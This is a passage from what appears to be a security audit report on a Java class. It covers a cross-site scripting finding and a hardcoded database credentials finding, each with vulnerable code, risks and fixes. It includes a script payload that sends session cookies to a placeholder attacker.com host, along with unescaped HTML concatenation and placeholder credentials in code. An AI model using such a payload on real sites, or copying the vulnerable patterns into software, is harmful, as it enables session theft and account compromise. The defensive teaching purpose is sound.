 ## 2. **Cross-Site Scripting (XSS)** (Critical)

### 2.1 HTML Injection
**Location**: `SecurityVulnerabilities.generateUserProfile(String username, String bio)`
```java
// VULNERABLE CODE
String html = "<div class='user-profile'>";
html += "<h1>Welcome " + username + "</h1>";
html += "<p>Bio: " + bio + "</p>";
html += "<script>alert('Hello " + username + "');</script>";
html += "</div>";
```

**Risk**: Critical
- Allows arbitrary JavaScript execution
- Can steal user sessions
- May lead to account compromise

**Attack Vector**:
```
username = "<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>"
```

**Fix**: HTML Encoding
```java
// SECURE CODE
import org.apache.commons.text.StringEscapeUtils;

String html = "<div class='user-profile'>";
html += "<h1>Welcome " + StringEscapeUtils.escapeHtml4(username) + "</h1>";
html += "<p>Bio: " + StringEscapeUtils.escapeHtml4(bio) + "</p>";
html += "</div>";
```

---

## 3. **Hardcoded Credentials** (Critical)

### 3.1 Database Credentials
**Location**: Multiple classes
```java
// VULNERABLE CODE
private static final String DATABASE_URL = "jdbc:mysql://localhost:3306/production_db";
private static final String DATABASE_USER = "admin";
private static final String DATABASE_PASSWORD = "super_secret_password_123";
```

**Risk**: Critical
- Credentials exposed in source code
- Version control history contains secrets
- Easy access for attackers

**Fix**: Environment Variables
```java
// SECURE CODE
private static final String DATABASE_URL = System.getenv("DB_URL");
private static final String DATABASE_USER = System.getenv("DB_USER");
private static final String DATABASE_PASSWORD = System.getenv("DB_PASSWORD");
```

